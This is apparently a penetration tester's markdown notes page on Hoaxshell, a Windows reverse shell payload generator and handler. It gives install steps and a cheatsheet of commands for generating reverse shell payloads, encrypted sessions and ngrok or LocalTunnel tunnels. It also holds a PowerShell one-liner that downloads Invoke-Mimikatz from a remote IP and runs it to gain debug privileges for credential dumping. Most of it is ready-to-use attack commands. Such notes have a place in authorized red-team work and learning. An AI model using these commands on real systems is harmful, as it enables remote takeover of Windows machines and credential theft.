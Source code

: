 # Hoaxshell

[Hoaxshell](https://github.com/t3l3machus/hoaxshell#constraint-language-mode-support) is a *.. Windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell.*

#### Installation

```bash
git clone https://github.com/t3l3machus/hoaxshell
cd ./hoaxshell
sudo pip3 install -r requirements.txt
chmod +x hoaxshell.py
```

#### Considerations Limitations!

2023:
>*[The latest version of this project is the](https://github.com/t3l3machus/hoaxshell#-the-latest-version-of-this-project-is-the-hoaxshell-standalone-listener-which-comes-with-refreshed-payload-templates-wou-can-also-use-it-directly-from-httpsrevshellscom-make-sure-to-choose-hoaxshell-as-the-listener) [HoaxShell standalone listener](https://github.com/t3l3machus/hoaxshell/tree/main/revshells) which comes with refreshed payload templates. Wou can also use it directly from [https://revshells.com](https://revshells.com) (make sure to choose hoaxshell as the listener).*

*The shell is going to hang if you execute a command that initiates an interactive session* - no [[Mimikatz-Cheatsheet]], or any .exe or cmd.exe that starts an interactive session - but you can if you:

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.13:4443/Invoke-Mimikatz.ps1');Invoke-Mimikatz -Command '"PRIVILEGE::Debug"'
```

Cheatsheet - currently just the usage from the README 
```bash
# Invoke-Expression (default)
sudo python3 hoaxshell.py -s <your_ip>
# Payload that writes and executes commands from a file
sudo python3 hoaxshell.py -s <your_ip> -x "C:\Users\\\$env:USERNAME\.local\hack.ps1"

# Recommended usage http header to transfer shell session info
sudo python3 hoaxshell.py -s <your_ip> -i -H "Authorization"
sudo python3 hoaxshell.py -s <your_ip> -i -H "Authorization" -x "C:\Users\\\$env:USERNAME\.local\hack.ps1"

# Encrypted shell session (htttsp + self-signed certificate)
# Generate self-signed certificate:
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365
# Pass the cert.pem and key.pem as arguments:
sudo python3 hoaxshell.py -s <your_ip> -c </path/to/cert.pem> -k <path/to/key.pem>

# Encrypted shell session with a trusted certificate
sudo python3 hoaxshell.py -s <your.domain.com> -t -c </path/to/cert.pem> -k <path/to/key.pem>
# Grab session mode
sudo python3 hoaxshell.py -s <your_ip> -g
# Constraint language mode support
sudo python3 hoaxshell.py -s <your_ip> -cm

# Shell session over https using tunneling tools - ngrok and localtunnel
# Use `-ng` or `--ngrok` for Ngrok server
sudo python3 hoaxshell.py -ng
# Use `-lt` or `--localtunnel` for LocalTunnel server
sudo python3 hoaxshell.py -lt

```
Recommended tunnelling tools: 
- [Ngrok](https://ngrok.com)
- [LocalTunnel](https://localtunnel.me)

## References

[Hoaxshell](https://github.com/t3l3machus/hoaxshell#constraint-language-mode-support) 
[Ngrok](https://ngrok.com)
[LocalTunnel](https://localtunnel.me)
